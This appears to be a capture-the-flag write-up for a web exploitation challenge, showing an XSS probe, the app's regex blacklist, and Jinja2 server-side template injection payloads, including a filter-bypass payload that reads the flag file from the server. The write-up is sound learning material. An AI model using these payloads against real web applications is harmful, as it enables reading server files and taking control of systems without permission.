 # EHC Hair Salon

![1](./media/1.PNG)

**Category:** Web Exploitation

**Source code:**
[app.py](./media/app.py)

---

## 1. Analyze:

Messing around with the page, we can see a POST form in the main page.
![2](./media/2.png)

I tried insert a string: `aaaaa` and here's what I got.
![3](./media/3.png)

After inserting javascript, in this case: `<script>alert(1)</script>`, we can see that this page XSS vulnerability.

![4](./media/4.PNG)

From what I have learned, [XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting) can possibly leads to [SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection). We also know that we are unable to use any of these characters:

```python
regex = "request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#"
```

## 2. Payload
Basically, the idea is to inject the following payload to read flag.

```
{{cycler.__init__.__globals__.__builtins__.open("flag").read()}}
```
But we can't do that, since it would trigger this:
```python
if '{' in hair_type and re.search(regex,hair_type):
    return render_template_string(error_page)
```
Then, the `error_page` would be rendered instead. After some research, I found this payload from a CTF write-up which can bypass the `regex` filter:
```
{{(cycler|attr(dict(__ini=a,t__=b)|join)|attr(dict(__glob=c,als__=d)|join))[dict(__buil=buil,tins__=tins)|join][dict(op=op,en=en)|join](dict(fl=fl,ag=ag)|join)|attr(dict(re=re,ad=ad)|join)()}}
```

Submit the payload and we get: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`
## References
[SSTI payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file)

[Final payload](https://hackmd.io/@d4rkp0w4r/idekCTF-2021#Baby-JinJail-and-jinjail)